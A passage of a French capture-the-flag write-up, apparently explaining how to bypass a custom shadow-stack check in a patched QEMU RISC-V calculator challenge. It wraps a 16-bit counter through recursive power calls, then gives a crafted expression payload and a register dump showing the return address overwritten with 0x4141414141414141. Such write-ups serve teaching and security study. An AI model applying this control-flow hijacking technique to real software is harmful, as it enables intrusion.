 ```c
```

L'intérêt d'exploiter cette fonction est que si l'on parvient à faire revenir dark_offset à 0, dans ce cas précis, le check dans le patch de l'instruction jalr n'est pas effectué:

```c
+        TCGv dark_offset = tcg_temp_new();
+        TCGv_i32 csr_darkoff = tcg_constant_i32(CSR_DARKOFF);
+        gen_helper_csrr(dark_offset, cpu_env, csr_darkoff);
+        tcg_gen_brcondi_tl(TCG_COND_EQ, dark_offset, 0, shadow_pact_end);
```

Et une fois que le compteur est à 0, le programme va retourner de tous les appels à handle_power, puis de dispatch, puis de calc, puis sur notre exploit sans faire de check sur la shadow stack. Il faut donc faire assez d'appels pour que le compteur dark_offest revienne à 0.

Au moment où la fonction `handle_power` est appellée pour la première fois, la dark_page comporte 4 entrées, respectivement l'adresse de retour de `secure_calc`, `calc`, `dispatch`, `do_power` ce qui implique que dark_offset vaut 4 * 8 = 32 à ce moment là.

Sachant que dark_offset est incrémenté de 8 à chaque appel et qu'il peut représenter au maximum 2**16 - 1,
si on veut que le compteur revienne à 0 il nous suffit de faire en sorte que handle_power s'appelle récursivement au moins (65536 - 32) / 8 fois = 8188 fois.

Je précise "au moins" car si on l'appelle plus que ca, la technique fonctionne aussi.Une fois que 0 est atteint les appels suivants vont s'annuler jusqu'à retomber à 0 MAIS le compteur ne redescendra pas en dessous de 0 car dans le patch de l'instruction jalr, si le compteur dark_offset vaut 0, le check sur la shadow stack n'est pas fait et en plus le compteur n'est pas décrémenté.

Et pour ajouter des appels récursifs à notre payload, il suffit de le "wrapper" dans une node qui se chargera de faire les calculs de puissance:

```text
((1*1)(0(0(0(0(0(0(0(0(0(0(0(0(0(0(0(0(0(0)))))))))))))))))+4702111234474983745))**8188
```

On teste et:

```c
RA   0x4141414141414141 ('AAAAAAAA')
 GP   0x16800 ◂— 0x0
 TP   0x4000953da0 —▸ 0x4000945228 (_nl_global_locale) —▸ 0x4000941dd0 (_nl_C_LC_CTYPE) —▸ 0x400092bde8 (_nl_C_name) ◂— 0x43 /* 'C' */                                                                        
 T0   0x400081e290 ◂— 0x0
 T1   0x17470 ◂— 0x17
 T2   0x3
 S0   0x0
 S1   0x1
 A0   0x0
 A1   0x4000800348 ◂— 0x101010101
 A2   0x0
 A3   0x0
 A4   0x0
 A5   0x0
 A6   0x174e0 ◂— 0x17
 A7   0x29ea5ca3aef8c772
 S2   0x0
 S3   0x15e00 (__do_global_dtors_aux_fini_array_entry) —▸ 0x10f24 (__do_global_dtors_aux) ◂— c.addi sp, -0x10                                                                                                 
 S4   0x14260 (main) ◂— c.addi16sp sp, -0xd0
 S5   0x4000800688 —▸ 0x4000800858 ◂— '_=/home/challenger/qemu/build/qemu-riscv64'
 S6   0x15e00 (__do_global_dtors_aux_fini_array_entry) —▸ 0x10f24 (__do_global_dtors_aux) ◂— c.addi sp, -0x10                                                                                                 
 S7   0x400081cd78 (_rtld_local_ro) ◂— 0x0
```